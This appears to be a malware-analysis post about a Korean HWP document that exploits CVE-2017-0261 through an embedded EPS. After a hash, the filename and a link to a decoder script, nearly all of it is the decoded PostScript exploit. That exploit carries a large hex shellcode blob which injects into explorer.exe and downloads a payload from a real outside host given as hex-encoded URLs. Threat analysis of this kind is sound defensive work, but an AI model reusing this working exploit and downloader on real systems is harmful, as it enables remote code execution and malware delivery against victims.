


sha256 of HWP : **c5153d6f6c103862f9163814d996f428c4bfe45bed5224d4b21ca239a1ccfcdc**

ITW Filename : **투자계약서_20190619.hwp**

This is another of those HWP with malicious EPS.



This is a simple decoder script i made to decode such stuff.
[Decoder Script](https://github.com/jacobsoo/ThreatHunting/blob/master/Analysis%20Scripts/pyDecoder_CVE-2017-0261.py)

We will get back the following PS.
```postscript
/Y1 16#FFFF def /Y2 Y1 array def /Y3 (poor) def /Y4 1 array def /Y5 0 def /Y6 16#100 def /Y7 Y6 array def /Y8 16#8 def /Y9 16#18F0 def /Y10 16#31E array def /Y11 16#215 array def /Y12 16#1 array def /Y13 { Y10 aload 16#10 { Y11 aload } repeat 16#100 { /Y14 16#1520 string def} repeat 0 1 Y6 1 sub { /Y15 16#1520 string def 0 1 Y15 length 1 sub { Y15 exch 1 put } for Y7 exch Y15 put } for } bind def /Y16 { /Y18 exch def /Y19 Y18 -15 bitshift def /Y21 Y18 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 get Y20 Y21 1 add get 8 bitshift or Y20 Y21 2 add get 16 bitshift or Y20 Y21 3 add get 24 bitshift or } bind def /Y17 { /Y22 exch def /Y18 exch def /Y19 Y18 -15 bitshift def /Y21 Y18 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 Y22 16#FF and put Y20 Y21 1 add Y22 -8 bitshift 16#FF and put Y20 Y21 2 add Y22 -16 bitshift 16#FF and put Y20 Y21 3 add Y22 -24 bitshift 16#FF and put } bind def /Y23 { /Y24 exch def /Y19 Y24 -15 bitshift def /Y21 Y24 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 get Y20 Y21 1 add get 8 bitshift or } bind def /Y25 { /Y22 exch def /Y24 exch def /Y19 Y24 -15 bitshift def /Y21 Y24 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 Y22 16#FF and put Y20 Y21 1 add Y22 -8 bitshift 16#FF and put } bind def /Y26 { /Y27 exch def /Y19 Y27 -15 bitshift def /Y21 Y27 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 get } bind def /Y28 { /Y22 exch def /Y27 exch def /Y19 Y27 -15 bitshift def /Y21 Y27 16#7FFF and def /Y20 Y2 Y19 get def Y20 Y21 Y22 16#FF and put } bind def /Y29 16#100 string def /Y30 { /Y31 exch def /Y32 exch def /Y33 0 def 0 1 Y29 length 1 sub { Y29 exch 0 put } for Y31 { Y29 Y33 Y32 Y33 add Y26 put /Y33 Y33 1 add def } repeat Y29 } bind def /Y34 { /Y35 exch def /Y32 exch def /Y36 Y35 length def 0 1 Y36 1 sub { /Y33 exch def Y32 Y33 add Y35 Y33 get Y28 } for } bind def /Y37 { /Y22 exch def /Y38 Y22 length def /Y39 Y38 string def 0 1 Y38 1 sub { /Y40 exch def /Y41 Y22 Y40 get def Y41 16#5A gt { /Y41 Y41 16#20 sub def } if Y39 Y40 Y41 put } for Y39 } bind def /Y42 { /Y22 exch def /Y38 Y22 length def /Y39 Y38 string def 0 1 Y38 1 sub { /Y43 exch def /Y41 Y22 Y43 get def Y41 16#61 lt { /Y41 Y41 16#20 add def } if Y39 Y43 Y41 put } for Y39 } bind def /Y44 { 16#7FFF0000 and /Y45 exch def { Y45 Y23 16#5A4D eq { /Y46 Y45 16#3C add Y16 def Y46 16#200 lt { Y45 Y46 add Y23 16#4550 eq { exit } if } if } if /Y45 Y45 16#10000 sub def } loop Y45 } bind def /Y47 { /Y48 exch def /Y49 exch def /Y50 Y49 dup 16#3C add Y16 add def /Y5 Y50 16#19 add Y26 def Y5 01 eq { /Y51 Y49 Y50 128 add Y16 add def /Y52 Y50 132 add Y16 def } { Y5 02 eq { /Y51 Y49 Y50 144 add Y16 add def /Y52 Y50 148 add Y16 def } if } ifelse 0 0 20 Y52 1 sub { /Y53 exch def /Y54 Y51 Y53 add 12 add Y16 def Y54 0 eq { quit } if Y49 Y54 add 14 Y30 Y37 Y48 Y37 search { length 0 eq { pop pop pop Y51 Y53 add exit } if pop } if pop } for } bind def /Y55 { /Y56 exch def /Y57 exch def /Y58 Y57 Y56 Y47 def /Y59 Y58 Y16 Y57 add def /Y60 Y59 Y16 def Y60 0 ne { Y58 16 add Y16 Y57 add Y16 Y44 } { 0 }ifelse } bind def /Y61 { /Y62 exch def /Y45 exch def /Y63 0 def /Y38 Y62 length def /Y50 Y45 dup 16#3C add Y16 add def /Y64 Y45 Y50 16#78 add Y16 add def /Y65 Y64 16#18 add Y16 def /Y66 Y45 Y64 16#1C add Y16 add def /Y67 Y45 Y64 16#20 add Y16 add def /Y68 Y45 Y64 16#24 add Y16 add def 0 1 Y65 1 sub { /Y69 exch def /Y70 Y45 Y67 Y69 2 bitshift add Y16 add def Y70 Y38 Y30 Y62 search { pop pop pop /Y71 Y68 Y69 1 bitshift add Y23 def /Y63 Y45 Y66 Y71 2 bitshift add Y16 add def exit } if pop } for Y63 } bind def /Y72 { /Y38 exch def /Y73 exch def /Y74 exch def /Y75 Y74 length def /Y76 Y73 length def Y75 Y38 lt {/Y38 Y75 def} if Y76 Y38 lt {/Y38 Y76 def} if /Y39 0 def 0 1 Y38 1 sub { /Y69 exch def /Y39 Y74 Y69 get Y73 Y69 get sub def Y39 0 ne {exit} if } for Y39 } bind def /Y77 <E9930F0000558BEC8B550433C08D0C108139DDCCBBAA740A403D0001000072ED5DC35DE985050000558BEC51535633F6B952F3E251578975FCE8370B0000B9604776108BD8E82B0B00008BF885FF740C8D45FC50FFD350FFD78B75FC5F8BC65E5BC9C3558BEC83E4F883EC4C8324240053568BD9B9C838A44057E8F60A0000B9F1FD98A189442430E8E80A0000B9EE95B65089442414E8DA0A0000B9AE87923F89442420E8CC0A0000B9C5D8BDE789442424E8BE0A0000B9A6B561CD8944241CE8B00A00008944242CE85AFFFFFF85C074128B7B088D831C02000003430C89442418EB0B8B7B048BF32BF7897424188D4C2448897C2410C74424486578706CC744244C6F726572C74424502E657865C644245400E8DE0D00008BF085F60F84E5000000E81A0D0000566A0068FFFF1F00FF54242C8BF085F60F84CA0000006A4068003000008D871C020000506A005689442434FF5424388BF885FF0F849E0000008D44242850FF742414FF7424205756FF54243085C00F84830000008D442428508B442414681C0200005303C75056FF54243085C074688B44242C85C074138D4C243C516A20FF7424285756FFD085C0744DE871FEFFFF85C0742C8D4424300F57C05033C0660F13442434505050575050568D831C020000FFD08B44245083C4208944240CEB188D442440508D4424105033C05057505050505056FF542458568B742418FFD6EB048B742414837C240C007406FF74240CFFD65F5E5B8BE55DC3558BEC81EC2402000053568955E48BF1578D55F0C745F03A2F2F00E8CA0A00008BF885FF0F84B6000000518D55F0C745F0687474708BCEC745F4733A2F2FC645F800E8E30A00005933DB8945E885C08D4F036A2F5A0F94C3E8770A00008945EC85C0747C8BF08D57032BF78D4EFD518D8DE0FEFFFFE8340B00008B55EC8D8DDCFDFFFF83C404C68435DDFEFFFF00E8FB0A00006A3A5A8D8DE0FEFFFFE8330A0000837DE800B9BB0100006A505A0F45CA0FB7D185C0740E8D4801C60000E81F0B00000FB7D0FF75E48D85DCFDFFFF53508D8DE0FEFFFFE80C00000083C40CEB0233C05F5E5BC9C3558BEC83EC7853894DF08D45F833C98955F456578BF9894DFC8BD9894DBC8D4DA8C745A857696E49C745AC6E65742EC745B0646C6C00C745C047455400C745F82A2F2A008945B8E85E070000B958A453E5E818080000B90B2F0F308945DCE80B080000B93A5679A78945D0E8FE070000B957899FC68BF0E8F2070000B9EB552E3B8945ECE8E5070000B92D06187B8945E8E8D8070000B9727006B68945E4E8CB070000B9FF617C498945E0E8BE070000B9129689E28945D8E8B1070000B9D36B6ED48945D4E8A40700008945C833C05050505050FFD68945CC85C00F84FD00000033F656566A035656FF75F4FF75F050FF55EC8BC8894DEC85C90F84C50000008B450CF7D8561BC02500308000508D45B8505656FF75088D45C05051FF55E88BF885FF0F849C0000005656565657FF55E485C00F848C000000568D45FCC745FC20000000508D4588506A0557FF55E085C074728D4D88E89F0900008BF085F67E646A0468003000005653FF55DC8BD885DB74528365F4008B451085C07402893085F674416A006A008D45FC5057FF55D885C074248D45FC50FF75FC8B45F403C35057FF55D485C0740F8B45F40345FC8945F43BC672CEEB0D68008000006A0053FF55D033DBFF75CC8B75C8FFD68B45EC85C0740350FFD685FF740357FFD65F5E8BC35BC9C3558BEC83EC1853568BF1B90B2F0F30578975F4E871060000B94713726F8945ECE864060000B944F035E08945E8E8570600008BD833FF8D46108945F88D55FC8BC8E8EEFCFFFF8BF085F6750F6A40FFD38B45F84783FF0872E3EB5C33C9394DFC76188B55F48BC183E0038A841018020000300431413B4DFC72EB8BCEE8BE00000085C07427E8E000000085C0741E8D55F0C745F0446C6C508BC8C745F4726F6300E83105000085C07402FFD068008000006A0056FF55EC6A00FF55E85F5E5BC9C3558BEC81EC14010000568BF1B95D4461FEE8B205000068040100008D8DECFEFFFF516A00FFD085C074168A8C05EBFEFFFF80F95C740A80F92F740583E80175EA8D8DECFEFFFFC745F06578706C03C8C745F46F7265728D55F0C745F82E657865C645FC00E8970600008BCE85C07407E842FAFFFFEB05E8C4FEFFFF5EC9C385C97424B84D5A0000663901751A8B513C8D42FF3DFF010000770D813C0A50450000750433C040C333C0C3558BEC83EC208BD18D4DE0E831040000E81D04000085C07422E8DF03000085C074198D4DE0E87302000085C0740D8D4DE0E8810100008B45F9C9C333C0C9C3558BEC83EC1056578BF98955F8897DF08B473C8BB438A000000003F78975FC8B460485C07477538B168D58F803D78D4E08D1EB894DF474588B7DF88BF10FB70E4B8BC1C1E80C83E801742683E801741583E801740583E807752681E1FF0F0000013C11EB1B81E1FF0F000066013C11EB0F81E1FF0F00008BC7C1E8106601041183C60285DB75B68B75FC8B7DF08B460403F08975FC8B460485C0758B5B33C05F405EC9C3558BEC83EC105356578BF933D28BDA8B473C8BB4388000000003F78975F40F84A9000000E98B00000085DB0F85950000008D0C38E83F0300008BD08955FC85D2747F8B4610391E8D0C380F4506894DF08D0C38894DF88B0985C974528B75F0791E8B423C0FB7C98B4410782B4C10108B44101C8D04888B041003C28906EB1A8D570203D18B4DFCE8FE0200008B55FC85C06A018906580F44D88B45F883C60483C0048945F88B0885C975B48B75F483C6148975F48B460C85C00F856AFFFFFFEB0533C08D580133D285DB0F94C25F5E8BC25BC9C38B41086A006A01FF71198B4028034119FFD0C38B41088B4919568B70343BCE750533C0405EC383B8A400000000750433C05EC38BD12BD65EE94BFEFFFF56578BF133FF85F6750733C0E99500000053B958A453E5E80F0300008B4E088BD86A046800300000FF7150FF7134FFD38BC8894E1985C975218B460839B8A4000000745F6A046800300000FF705057FFD38BC8894E1985C974498B46088B560DFF7054E8B30300008B46085933C90FB7581483C32C663B4806732503D88B138B4BF8FF73FC03560D034E19E88B0300008B46088D5B2847590FB740063BF872DD33FF478BC75B5F5EC3558BEC83EC1C53568BD9B910E18AC357E86D0200008B53088D4DE8516A02590FB7721451FF72548945E403F2FF7319894DF0FFD08B7B0833C9894DFC0FB74706663BC80F83E10000008945F883C624C745EC040000008B56188BCAC1E91D8BC2C1E81E83E10183E001C745F4080000008D0C488BC2C1E81F8D044833C985C00F94C183F8010F444DF483F802C745F4100000000F444DF083F8030F444DEC83F8040F444DF483F805C745F4800000000F444DF483F806C745F4200000000F444DF483F807C745F4400000000F444DF48BC10D0002000081E2000000048B160F44C18945F48B45FC403B45F88945FC8B475073058B4E28EB028BC82BC28D7DE82BCA57FF75F43BC80F46C1508B431903C250FF55E48B7B0883C6280FB747068945F83945FC0F822CFFFFFF5F33C05E405BC9C35633F685C974238B510D8951048B423C03C2894108813850450000750D64A130000000468B40088941118BC65EC3568BF1E8CAFFFFFF85C07425E8E6FDFFFF85C0741C8B4E19E8C9FCFFFF85C074108BCEE8A5FDFFFF85C0740533C0405EC333C05EC333C085C9740889510D40C6410C01C333C088410C894115894104894108890189410D894111894119C3568BF1B94C772607E8B700000056FFD05EC3558BEC83EC1056578BFA8BF1B949F70278897DF4E8990000005756FFD085C075778B463C538B5430788955F885D274658B4432248B4C322003C68945F003CE8B44321885C0744E8D58FF8D1C998B0B03CE8A113A178855FF8B55F87524807DFF00741A8A51013A57018855FF8B55F8751083C10283C702807DFF0075D433C9EB051BC983C90185C974128B7DF483EB0483E80175B833C05B5F5EC9C38B4DF00FB74C41FE8B44321C8D04888B043003C6EBE5558BEC83EC1C64A1300000005356578B400C894DE88B70148BC68975F88975FC8B5E2885DB0F84980000008B7E108B473C8B4438788945F485C00F84800000000FB77E2433F60FB613C1CE0D803B618D42E00F43D08BC703F2434F85C079E78B45F48975EC8B75F88B7E108B5438248B4C382003D78955E403CF8B54381885D2743E8D42FF8D04818945F88B0003C733DB8945F08BF88A0FC1CB0D0FB6C103D84784C975F18B45EC8B7E1003C33B45E874258B45F883E8048945F883EA0175CB8B45FC8B368975F83BF00F8550FFFFFF33C05F5E5BC9C38B45E40FB74C50FE8B45F48B44381C8D04888B043803C7EBE2558BEC568B750883FE047219578BFEC1EF028B0283EE04890183C20483C10483EF0175EE5F85F6740D2BCA8A028804114283EE0175F533C0405E5DC38D41E083F95A0F4FC88BC1C35356578BFA8BF1EB1E8A0784C0741E0FBEC8E8DDFFFFFF0FBECB8BD0E8D3FFFFFF3BC2750846478A1E84DB75DC0FBE0EE8BFFFFFFF0FBE0F8BD0E8B5FFFFFF5F2BD05E8BC25BC3EB080FBEC03BC2740A418A0184C075F233C0C38BC1C3538A1956578BFA84DB742B8BF12BF78BC784DB74148A118A1884DB741F3AD37508408A140684D275EE803800740E41468A1984DB75D933C05F5E5BC38BC1EBF8558BEC515356578BFAC745FC070000008BF1EB2B8A0784C0742B0FBEC8E835FFFFFF0FBECB8BD0E82BFFFFFF3BC275158B4DFC8BC149894DFC85C07E2346478A1E84DB75CF0FBE0EE80AFFFFFF0FBE0F8BD0E800FFFFFF2BD08BC25F5E5BC9C333C0EBF785C9741985D274158BC1538A1A2BC2881C10428A1A84DB75F68BC15BC333C0C3558BEC85C9742885D27424538A1A568BF1578B7D082BF2881C16428A1A84DB74078BC74F85C07FEF5F5E8BC15B5DC333C05DC3538A1933D2565733FF428AC380FB2D75068A410183CAFF80FB2D8D71010F45F1EB123C397F126BCF0A0FBEC08D78D003F9468A063C307DEA0FAFD75F5E5B8BC2C3558BEC83EC68B9E4E3948A535657E820FDFFFFB94D7EC91D8BF0E814FDFFFFB9F1FD98A18BF8E808FDFFFFB952F3E2518BD8E8FCFCFFFF8D4DFC516A20FFD050FFD685C0746A33D2C74598080000008BCA8D45A0C74004020000004189108D400C3B4D9872EE5252528D4598C7459C140000005052FF75FCC745A80E000000C745B421000000C745C00A000000C745CC0D000000C745D812000000C745E413000000C745F009000000FFD7FF75FCFFD35F5E5BC9C3558BEC81EC3C0100005356894DF8B9F1FD98A15733FFE863FCFFFFB980391E928945F4E856FCFFFFB927A9E8678BF0E84AFCFFFFB98D5201BD8BD8E83EFCFFFF576A028945FCFFD68BF083FEFF750433C0EB498D85C8FEFFFFC785C8FEFFFF280100005056FFD385C0742B8B5DFC8B4DF88D95ECFEFFFFE83AFDFFFF85C074108D85C8FEFFFF5056FFD385C075E0EB068BBDD0FEFFFF56FF55F48BC75F5E5BC9C3E868F0FFFF33C0C3DDCCBBAAA00F0000701200001001000068747470733A2F2F676F7A6465656C656B74726F6E696B2E6E65742F77702D636F6E74656E742F7468656D65732F303131312F6D6F7669652E706E6700FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF2CD2200090C72000C4AC20007DC520001CC10D000A000D000A002CD290C790C778C720005F005F005F005F005F005F005F005F005F005F005F005F005F005F005F00280074C758D520001C2011AC1D2074C77CB720005CD5E4B22E00290040C62000ACC0C5C590C778C720005F005F005F005F005F005F005F005F005F005F005F005F005F005F005F005F005F00280074C758D520001C2044C71D2074C77CB720005CD5E4B22E00290040C720001C2044C71D2068747470733A2F2F676F7A6465656C656B74726F6E696B2E6E65742F77702D636F6E74656E742F7468656D65732F303131312F6D6F7669652E6A706700B24CC7FCAC200019AC74C720002CD290C7C4AC7DC544C72000B4CCB0AC5CD5E4B22E000D000A000D000A001CC820003100200070C820005B00C4AC7DC558C72000A9BA01C85D000D000A00F8BC2000C4AC7DC51CC194B220001C2044C71D2074C7200018C289D558D594B220001C20B4C601C6ACC0C5C51D20D0C520001C2011AC1D2074C720002CD290C768D5D0C5200088C7B4C5200044D594C65CD520001C2011AC1D20FCAC20001C2044C71D2058C720008CADACB940C6200058C734BB2000F1B420001CC80000000053565755E86C00000085C0745D4889E64883E4F04883EC68B8FA80395EE8780000004889C34D31C04831C0488944245048894424484889442440488944243848894424308B462448894424288B46204889442420448B4E14BA000000108B4E30FFD34889F4E8180000005D5F5E5BC331C048F7D8C3E8F5FFFFFF7405586A3350CBC3E8E8FFFFFF75105883EC08890424C744240423000000CBC3565753514989C06A605E65488B06488B40184C8B5030498B6A104885ED89E8744F4D8B128B453C83C0108B440578488D740518AD9167E3DEAD4C8D5C0500AD488D7C0500AD488D5C05008B748FFC4801EE31C099AC01C2C1C205FFC879F64439C2E0E775B10FB7144B418B04934801E8595B5F5EC300E95B120000CCCCCC488B142433C0488BCA8139DDCCBBAA740DFFC048FFC13D0001000072ECC38BC84803CAE95006000040555356574154415541564157488D6C24E14881EC8800000048836577004C8BE9B9C838A440E8450D0000B9F1FD98A1488945EFE8370D0000B9EE95B6504C8BF0E82A0D0000B9AE87923F488BF8E81D0D0000B9C5D8BDE74889457FE80F0D0000B9A6B561CD4889456FE8010D0000418B7504488D4DF74C8BE0C745F76578706CC745FB6F726572C745FF2E657865C6450300E8D41000008BD885C00F84E9000000E8CD0F0000448BC333D2B9FFFF1F00FFD7488BD84885C00F84CC0000004C8DBE1C020000C7442420400000004D8BC741B90030000033D2488BC8FF557F488BF84885C00F849A000000488D45E74D8BC54C2BC64889442420448BCE488BD7488BCBFF556F85C0747B488D45E741B91C020000488D143E48894424204D8BC5488BCBFF556F85C0745B4D85E4741F488D456741B9200000004D8BC74889442420488BD7488BCB41FFD485C07437488D45074533C948894424484533C0488D457733D24889442440488BCB48836424380048897C2430488364242800488364242000FF55EF488BCB41FFD6488B4D774885C9740341FFD64881C488000000415F415E415D415C5F5E5B5DC3CC488BC44889580848897010488978184C89702055488DA898FEFFFF4881EC60020000488BF2C74424303A2F2F00488D5424304C8BC9E83E0D0000488BD84885C00F84BE000000488D542430C744243068747470498BC9C7442434733A2F2FC644243800E84C0D00004533DB488D4B0385C0BA2F000000448BF0410F94C3E8DA0C0000488BF84885C0747A448BC7488D5303442BC3488D4C24404183E803E8AA0D0000488BCF488BD7482BCBC6440C3D00488D4D50E8670D0000BA3A000000488D4C2440E8940C0000488BC841F7DE661BC0662595FE6605BB014885C9740BC6010048FFC1E8970D0000458BCB48897424204C8D45500FB7D0488D4C2440E822000000EB0233C04C8D9C2460020000498B5B10498B7318498B7B204D8B7328498BE35DC3CC488BC4488958104C894018488948085556574154415541564157488D68A94881ECD00000004533EDC7459757696E49488D459344896D8F488D4D97488945EF418BFD4C896DF7418BF5C7459B6E65742E458BF1C7459F646C6C00440FB7FAC745A747455400C745932A2F2A00E85F090000B958A453E5E8250A0000B90B2F0F30488945CFE8170A0000B93A5679A7488945E7E8090A0000B957899FC6488BD8E8FC090000B9EB552E3B488945AFE8EE090000B92D06187B488945B7E8E0090000B9727006B6488945BFE8D2090000B9FF617C49488945C7E8C4090000B9129689E2488945D7E8B6090000B9D36B6ED4488945DFE8A80900004533C944896C24204533C033D233C94C8BE0FFD34C8BE84885C00F844F01000048217424384533C921742430450FB7C7488B555F488BC8C7442428030000004821742420FF55AF4C8BF84885C00F84000100004C8B456F488D55A741F7DE498BCF1BC0482174243825003080004533C989442430488D45EF48894424284821742420FF55B7488BF84885C00F84C2000000217424204533C94533C033D2488BC8FF55BF85C00F84A800000048217424204C8D4D8F4C8D45FFC7458F200000008D5605488BCFFF55C785C00F8483000000488D4DFFE88B0B00004863D885C07E73488BD3448D4E0433C941B800300000FF55CF488BF04885C07459488B4D7F4533F64885C97402891985DB74474533C9488D558F4533C0488BCFFF55D785C07423448B458F4C8D4D8F418BD6488BCF4803D6FF55DF85C0740B4403758F443BF372CBEB1033D241B800800000488BCEFF55E733F6498BCD41FFD44D85FF7406498BCF41FFD44885FF7406488BCF41FFD4488B9C2418010000488BC64881C4D0000000415F415E415D415C5F5E5DC3CCCCCC48895C240848896C241856574154415641574883EC20488BE9B90B2F0F30E8F5070000B94713726F4C8BE0E8E8070000B944F035E04C8BF8E8DB070000488BF033FF488D542458488D8D14010000E801FCFFFF488BD84885C0750E8D4840FFD6FFC783FF0872DBEB708B44245885C07420488BCB8BD0488BC1482BC383E0038A842818020000300148FFC14883EA0175E5488BCBE8FF00000085C0742EE8260100004885C07424488D542458C7442458446C6C50488BC8C744245C726F6300E8A40600004885C07402FFD033D241B800800000488BCB41FFD433C9498BC7488B5C2450488B6C24604883C420415F415E415C5F5E48FFE0CC48895C240855488D6C24C04881EC40010000488BD9B95D4461FEE80107000041B804010000488D54243033C9FFD085C074178D50FF807C14305C740D807C14302F74068BC285D275E98BC0488D4C24304803C8C74424206578706C488D542420C74424246F726572C74424282E657865C644242C00E8E6070000488BCB85C07407E82AF9FFFFEB05E87BFEFFFF488B9C24500100004881C4400100005DC3CCCC4885C97427B84D5A0000663901751D4863513C8D42FF3DFF010000770F813C0A504500007506B801000000C333C0C3CC4883EC68488BD1488D4C2420E84B050000488D4C2420E82905000085C0742D488D4C2420E8D304000085C0741F488D4C2420E82503000085C07411488D4C2420E8E7010000488B442451EB0233C04883C468C3CC488BC4488958084889681048897018488978204863413C488BFA488BD9448B8408B00000004C03C1418B400485C00F848A000000BDFF0F0000458B08498D7008448BD84C03CB4983EB0849D1EB4585DB745D440FB71641FFCB418BD2410FB7CAC1EA0C83EA01742B83EA01741C83EA01740E83FA07752B4C23D54B013C0AEB224823CD42013C09EB194823CD6642013C09EB0F4823CD488BC748C1E81066420104094883C6024585DB75A7418B40044C03C0418B400485C00F857BFFFFFF488B5C2408B801000000488B6C2410488B742418488B7C2420C348895C240848896C241048897424185741544155415641574883EC204863413C33DB488BF18BEB8BBC08900000004803F90F84A90000008B470C85C00F8499000000448D6B0185ED0F858F0000008BC84803CEE8FC0300004C8BF84885C074788B4F108B0785C04C8D24310F45C84C8D3431EB4B79274963473C0FB7D2428B8C3888000000428B443910428B4C391C482BD04903CF8B04914903C7EB164883C202498BCF4803D6E8C80300004885C0410F44ED4983C608498904244983C408498B164885D275AD8B47204883C71485C00F8570FFFFFFEB03418BED85ED0F94C3488B6C24588BC3488B5C2450488B7424604883C420415F415E415D415C5FC3CC488B41104533C0448B4828418D50014C034931488B493149FFE1CCCC488B4110488B49314C8B4030493BC87506B801000000C383B8B400000000750333C0C3488BD1492BD0E9DEFDFFFFCCCC48895C24084889742410574883EC2033DB488BF94885C9750733C0E9B4000000B958A453E5E8AE030000488B4F10488BF041B90400000041B8003000008B5150488B4930FFD648894731488BC84885C07527488B47103998B400000074748B5050448D490441B800300000FFD648894731488BC84885C07459488B4710488B5719448B4054E83A0400004C8B5710410FB742144883C02C66413B5A06732F4C03D0418B12418B4AF84803571948034F31458B42FCE80B040000488B47104D8D522848FFC30FB74806483BD972D4BB010000008BC3488B5C2430488B7424384883C4205FC348895C241048896C241856574155415641574883EC20488BD9B910E18AC3E8D10200004C8B43104C8D4C2450488B4B3141BD02000000488BE8410FB77814418B50544903F8458BC5FFD54C8B4B104533FF418BF766453B79060F83E4000000450FB75106458D75028BC64C8D1C80468B44DF3C418BC8C1E91D418BC0C1E81E83E10183E0018D0C48418BC0C1E81F8D1448418BC785D2B9080000000F94C083FA010F44C1413BD5B910000000410F44C583FA03410F44C6413BD60F44C183FA05B9800000000F44C183FA06B9200000000F44C183FA07B9400000000F44C1448BF0410FBAEE094181E000000004468B44DF24440F44F0418B4150FFC6413BF2730A488D0CB68B54CF24EB028BD0412BD0418BC8412BC04C8D4C24503BD0458BC60F46C248034B318BD0FFD54C8B4B1041BE04000000450FB75106413BF20F8225FFFFFF488B5C2458B801000000488B6C24604883C420415F415E415D5F5EC3CC4C8BC133C94D85C07431498B5019498950084863423C4803D049895010813A50450000751665488B042560000000488B481049894821B9010000008BC1C3CCCC40534883EC20488BD9E8B2FFFFFF85C0742C488BCBE862FDFFFF85C07420488B4B31E809FCFFFF85C07413488BCBE819FDFFFF85C07407B801000000EB0233C04883C4205BC3CCCC4885C9750333C0C348895119B801000000C6411801C3CCCC33C0884118488941294889410848894110488901488941194889412148894131C3CCCCCC40534883EC20488BD9B94C772607E8BD000000488BCB4883C4205B48FFE0CCCC48895C240848896C24104889742418574883EC20488BD9488BEAB949F70278E88C000000488BD5488BCBFFD04885C075564863433C8B8C188800000085C97445488D040B448B5820448B50244C03DB8B50184C03D3EB2AFFCA488BFD418B0C934803CB482BF9440FB601440FB60C39452BC1750848FFC14585C975EA4585C0741B85D275D233C0488B5C2430488B6C2438488B7424404883C4205FC38B481C410FB714524803CB8B04914803C3EBD8CC488BC4488958084889681048897018488978204156415765488B042560000000448BF9488B50184C8B42204D8BF0498B50504885D274794D8B48204963413C468B9C08880000004585DB7464410FB758484533D20FB60A41C1CA0D80F9618D41E00F43C88BC34403D1FFCB48FFC285C079E24B8D0C198B71208B79244903F18B51184903F9EB25FFCA8B1C964903D94533DB0FB60348FFC341C1CB0D4403D884C075EF438D0413413BC7742B85D275D74D8B004D3BC60F8572FFFFFF33C0488B5C2418488B6C2420488B742428488B7C2430415F415EC38B491C0FB714574903C98B04914903C1EBD5CCCCCC4C8BC94183F808721F418BC848C1E903488B024183C0F84989014883C2084983C1084883E90175E84585C074124C2BCA8A0A41880C1148FFC24183C0FF75F1B801000000C3CCCCCC8D41E083F95A0F4FC88BC1C34883EC28448A114C8BCA4C8BC1EB27418039007426410FBE09E8D6FFFFFF410FBECA8BD0E8CBFFFFFF3BC2750E49FFC049FFC1458A104584D275D4410FBE08E8B0FFFFFF410FBE098BD0E8A5FFFFFF2BD08BC24883C428C3EB0A0FBEC03BC2740C48FFC18A0184C075F033C0C3488BC1C3CCCCCC4C8BC2EB2A498BD084C0741B8A01803A0074253A02751048FFC2488BC1492BC08A041084C075E7803A00740C48FFC18A0184C075D033C0C3488BC1C34883EC28448A114C8BCA4C8BC141BB07000000EB31418039007430410FBE09E820FFFFFF410FBECA8BD0E815FFFFFF3BC27518418BC341FFCB85C07E2B49FFC049FFC1458A104584D275CA410FBE08E8F0FEFFFF410FBE098BD0E8E5FEFFFF2BD08BC24883C428C333C0EBF74885C974214885D2741C448A02488BC1482BC24488041048FFC2448A024584C075F1488BC1C333C0C3CCCCCC4885C9742B4885D27426448A124C8BC94C2BCA4588141148FFC2448A124584D2740A418BC041FFC885C07FE7488BC1C333C0C3CC448A0133D28D42014180F82D7507448A410183C8FF80392D4C8D49014C0F45C9EB194180F8397F19410FBEC88D149249FFC18D52E88D1451458A014180F8307DE10FAFC2C3CCCCCC488BC448895810488970184889782055488D68A14881ECA0000000B9E4E3948AE8D7FCFFFFB94D7EC91D488BD8E8CAFCFFFFB9F1FD98A1488BF8E8BDFCFFFFB952F3E251488BF0E8B0FCFFFFFFD0488BC84C8D4567BA20000000FFD34533C085C0747BC745E708000000418BD08BC2FFC2488D0C40C7448DF3020000004489448DEF3B55E772E6488B4D674533C94C8944242833D24C894424204C8D45E7C745EB14000000C745F70E000000C7450321000000C7450F0A000000C7451B0D000000C7452712000000C7453313000000C7453F09000000FFD7488B4D67FFD64C8D9C24A0000000498B5B18498B7320498B7B28498BE35DC3CC48895C240848896C2410488974241857415641574881EC500100004C8BF133FFB9F1FD98A1E8DAFBFFFFB980391E92488BE8E8CDFBFFFFB927A9E867488BD8E8C0FBFFFFB98D5201BD488BF0E8B3FBFFFF33D28D4F024C8BF8FFD3488BD84883F8FF750433C0EB3F488D542420C744242030010000488BCBFFD685C07422488D54244C498BCEE8B9FCFFFF85C0740D488D542420488BCB41FFD7EBDE8B7C2428488BCBFFD58BC74C8D9C24500100